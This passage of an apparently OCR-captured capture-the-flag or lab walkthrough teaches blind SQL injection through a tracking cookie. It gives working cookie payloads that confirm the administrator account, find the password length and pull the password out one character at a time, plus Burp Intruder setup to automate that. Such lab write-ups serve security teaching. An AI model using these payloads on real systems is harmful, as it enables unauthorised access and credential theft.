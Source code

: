 | Part | Meaning |
|------|---------|
| `SELECT username...WHERE username='administrator'` | Tries to get the username |
| `='administrator'` | Checks if it equals `'administrator'` |
| If true → welcome message shows ✅ |

### 💡 Result: Welcome back appears ✅  
➡️ The `administrator` user exists.

## 🔐 Step 5: Find Length of Administrator Password

Next step: find the length of the password.

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 20 --
```

Wait… That didn't return a welcome message. Try smaller numbers.

Eventually, you'll find:

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') = 20 --
```

### 💡 Result: Welcome back appears ✅  
➡️ The password has **20 characters**.

## 🧬 Step 6: Extract Password Using Substring + Brute Force

Now we extract the password character by character using `SUBSTRING`.

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

If the first letter is `'a'`, welcome message appears. If not, it doesn’t.

🔁 We need to test all possible values for each position (from 1 to 20).

## 🕵️‍♂️ Step 7: Use Burp Intruder to Automate Extraction

### Steps in Burp Suite:
1. Send request to **Intruder**
2. Go to **Positions**
3. Select the `'a'` part in the payload position → click "Add §"
4. Go to **Payloads**
5. Set payload type to **Simple list**
6. Add all possible characters: `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789`
7. Attack type: **Cluster bomb**
8. Start attack
